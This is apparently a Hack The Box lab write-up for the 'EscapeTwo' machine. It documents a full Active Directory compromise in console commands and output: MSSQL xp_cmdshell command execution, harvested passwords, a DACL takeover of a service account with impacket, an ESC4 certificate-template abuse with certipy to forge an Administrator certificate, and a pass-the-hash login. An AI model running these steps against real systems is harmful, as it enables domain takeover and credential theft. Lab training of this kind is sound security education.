

---
tags:
  - windows
---
# HTB: EscapeTwo

> [!tip]- Summary with Spoilers
> - **Initial Access:** SMB share enumeration revealed files containing user accounts.
> - **Service Exploitation:** MSSQL enabled `xp_cmdshell` for command execution; `sa`/`MSSQLP@ssw0rd!` exposed admin access.
> - **Credential Pivot:** Retrieved `sql_svc` credentials from exposed configuration, leveraging them to gain further access.
> - **Privilege Escalation:** Exploited vulnerable CA template `DunderMifflinAuthentication` using `certipy` to forge a certificate for `Administrator`.
> - **Full Domain Compromise:** Used forged cert to authenticate as `sequel\administrator` and take control of the domain.

## Enumeration

Full `nmap` output [included at the end](#nmap).

```console
$ nxc smb escapetwo.htb -u rose -p 'KxEPkKe6R8su' --users
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
SMB         10.10.11.51     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.10.11.51     445    DC01             Administrator                 2024-06-08 16:32:20 0       Built-in account for administering the computer/domain
SMB         10.10.11.51     445    DC01             Guest                         2024-12-25 14:44:53 0       Built-in account for guest access to the computer/domain
SMB         10.10.11.51     445    DC01             krbtgt                        2024-06-08 16:40:23 0       Key Distribution Center Service Account
SMB         10.10.11.51     445    DC01             michael                       2024-06-08 16:47:37 0
SMB         10.10.11.51     445    DC01             ryan                          2024-06-08 16:55:45 0
SMB         10.10.11.51     445    DC01             oscar                         2024-06-08 16:56:36 0
SMB         10.10.11.51     445    DC01             sql_svc                       2024-06-09 07:58:42 0
SMB         10.10.11.51     445    DC01             rose                          2024-12-25 14:44:54 0
SMB         10.10.11.51     445    DC01             ca_svc                        2025-01-16 17:37:29 0
SMB         10.10.11.51     445    DC01             [*] Enumerated 9 local users: SEQUEL
```

```console
$ nxc mssql sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --local-auth
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

## Remote Code Execution

```console
SQL (sa  dbo@master)> EXEC master.dbo.xp_cmdshell 'whoami'
ERROR(DC01\SQLEXPRESS): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL (sa  dbo@master)> execute sp_configure 'show advanced options', 1
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> reconfigure
SQL (sa  dbo@master)> exec sp_configure 'xp_cmdshell', '1'
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> reconfigure
SQL (sa  dbo@master)> xp_cmdshell 'whoami'
ERROR(DC01\SQLEXPRESS): Line 1: Incorrect syntax near 'whoami'.
SQL (sa  dbo@master)> EXEC master.dbo.xp_cmdshell 'whoami'
output
--------------
sequel\sql_svc
```

```console
$ nxc mssql sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --get-file '/users/sql_svc/20250116102724_BloodHound.zip' 20250116102724_BloodHound.zip --local-auth
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [*] Copying "/users/sql_svc/20250116102724_BloodHound.zip" to "20250116102724_BloodHound.zip"
MSSQL       10.10.11.51     1433   DC01             [+] File "/users/sql_svc/20250116102724_BloodHound.zip" was downloaded to "20250116102724_BloodHound.zip"

$ unzip 20250116102724_BloodHound.zip
Archive:  20250116102724_BloodHound.zip
  inflating: 20250116102724_computers.json
  inflating: 20250116102724_users.json
  inflating: 20250116102724_groups.json
  inflating: 20250116102724_containers.json
  inflating: 20250116102724_domains.json
  inflating: 20250116102724_gpos.json
  inflating: 20250116102724_ous.json
```



```console
PS C:\users\sql_svc> net user /dom

User accounts for \\DC01

-------------------------------------------------------------------------------
Administrator            ca_svc                   Guest
krbtgt                   michael                  oscar
rose                     ryan                     sql_svc
```

```powershell
PS C:\SQL2019\ExpressAdv_ENU> cat .\sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

```console
$ nxc smb sequel.htb -u ryan -p ./pw.txt
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ryan:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ryan:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ryan:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ryan:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3
```

## Privilege Escalation

```powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /all
USER INFORMATION
----------------
User Name   SID
=========== ============================================
sequel\ryan S-1-5-21-548670397-972687484-3496335370-1114


GROUP INFORMATION
-----------------
Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
SEQUEL\Management Department                Group            S-1-5-21-548670397-972687484-3496335370-1602 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------
User claims unknown.
Kerberos support for Dynamic Access Control on this device has been disabled.
```

```console
$ certipy find -u ryan -p WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51 -vulnerable -enabled
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Saved BloodHound data to '20250121124541_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250121124541_Certipy.txt'
[*] Saved JSON output to '20250121124541_Certipy.json'
```

```console
$ certipy req -u ryan -p WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51 -target dc01.sequel.htb -ca sequel-DC01-CA -template User -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'dc01.sequel.htb' at '10.10.11.51'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 18
[*] Got certificate with UPN 'ryan@sequel.htb'
[*] Certificate object SID is 'S-1-5-21-548670397-972687484-3496335370-1114'
[*] Saved certificate and private key to 'ryan.pfx'
```

```console
$ certipy req -u ryan -p WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51 -target dc01.sequel.htb -ca sequel-DC01-CA -template User -on-behalf-of 'sequel\administrator' -pfx ryan.pfx -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'dc01.sequel.htb' at '10.10.11.51'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[-] Got error while trying to request certificate: code: 0x800b0110 - CERT_E_WRONG_USAGE - The certificate is not valid for the requested usage.
[*] Request ID is 23
Would you like to save the private key? (y/N)
[-] Failed to request certificate
```

 Below I'm using [impacket](using-impacket-20250122.md) to abuse `WriteOwner` to take over the `ca_svc` account.

 First, I'll use `owneredit.py` to modify `OwnerSid` to the account I control:

```console
$ owneredit.py -action write -new-owner ryan -target ca_svc sequel/ryan:WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!
(venv)
```

Then I can set `FullControl` rights:

```console
$ dacledit.py -action write -rights FullControl -principal ryan -target ca_svc sequel/ryan:WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250121-141410.bak
[*] DACL modified successfully!
(venv)
```

Now I can change the account's password, among other things:

```console
$ net rpc password ca_svc password123 -U sequel/ryan%WqSZAF6CysDQbGb3 -S sequel.htb
(venv)
```

```console
$ nxc smb sequel.htb -u ca_svc -p password123
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ca_svc:password123
(venv)
```

```console
$ certipy find -u ca_svc -p password123 -dc-ip 10.10.11.51 -vulnerable -enabled
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Saved BloodHound data to '20250121142425_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250121142425_Certipy.txt'
[*] Saved JSON output to '20250121142425_Certipy.json'
(venv)
  e@ono:~
$ cat 20250121142425_Certipy.txt
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```

Other attackers may be changing the password out from under me. Reset it via:

```console
$ owneredit.py -action write -new-owner ryan -target ca_svc sequel/ryan:WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51 && dacledit.py -action write -rights FullControl -principal ryan -target ca_svc sequel/ryan:WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51 && net rpc password ca_svc password123 -U sequel/ryan%WqSZAF6CysDQbGb3 -S sequel.htb
```

Problem:

```console
$ certipy req -u ca_svc -p password123 -dc-ip 10.10.11.51 -target dc01.sequel.htb -ca sequel-DC01-CA -template DunderMifflinAuthentication -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'dc01.sequel.htb' at '10.10.11.51'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[-] Got error while trying to request certificate: code: 0x8009480f - CERTSRV_E_SUBJECT_DNS_REQUIRED - The Domain Name System (DNS) name is unavailable and cannot be added to the Subject Alternate name.
[*] Request ID is 38
Would you like to save the private key? (y/N)
[-] Failed to request certificate
(venv)
```

> [!tip]
> `certipy template` modifies the AD certificate‐template object so that you can successfully request a cert with a forged SAN/UPN (e.g. Administrator@domain). By default, many templates enforce strict DNS requirements, disallow custom SANs, or block non‐standard enrollments. This step loosens that policy so the CA accepts your custom request instead of failing with the “CERT_E_SUBJECT_DNS_REQUIRED” error.

```console
$ certipy template -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51 -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
(venv)
```

```console
$ certipy req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 42
[*] Got certificate with multiple identifications
    UPN: 'Administrator@sequel.htb'
    DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
(venv)
```

```console
$ certipy auth -pfx ./administrator_10.pfx -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
(venv)
```

```console
$ evil-winrm -i 10.10.11.51 -u Administrator -H '7a8d4e04986afa8ed4060f75e5a0b3ff'
...
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /all

USER INFORMATION
----------------
User Name            SID
==================== ===========================================
sequel\administrator S-1-5-21-548670397-972687484-3496335370-500
...
```

## Credits

- [Abusing Active Directory Certificate Services (Part 4)](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-4/)

## `nmap`

```text
# Nmap 7.94SVN scan initiated Thu Jan 16 11:39:29 2025 as: nmap -v --reason -Pn -T4 -p- --open -sCV -oA nmap_tcp-escapetwo.htb escapetwo.htb
Nmap scan report for escapetwo.htb (10.10.11.51)
Host is up, received user-set (0.095s latency).
Not shown: 65509 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-01-16 17:42:21Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
|_ssl-date: 2025-01-16T17:43:53+00:00; +3s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-16T17:43:53+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-01-15T22:10:35
| Not valid after:  2055-01-15T22:10:35
| MD5:   301b:eca9:2102:4ca3:7f85:d686:8cd3:e2e2
|_SHA-1: 9ed6:5ccd:68ea:1f08:6429:d6b8:9777:e485:6b83:be46
|_ssl-date: 2025-01-16T17:43:53+00:00; +3s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-16T17:43:53+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-08T17:35:00
| Not valid after:  2025-06-08T17:35:00
| MD5:   09fd:3df4:9f58:da05:410d:e89e:7442:b6ff
|_SHA-1: c3ac:8bfd:6132:ed77:2975:7f5e:6990:1ced:528e:aac5
|_ssl-date: 2025-01-16T17:43:53+00:00; +3s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49685/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49687/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49692/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49713/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49722/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49792/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: 2s, deviation: 0s, median: 2s
| smb2-time:
|   date: 2025-01-16T17:43:17
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 16 11:43:52 2025 -- 1 IP address (1 host up) scanned in 262.66 seconds
```
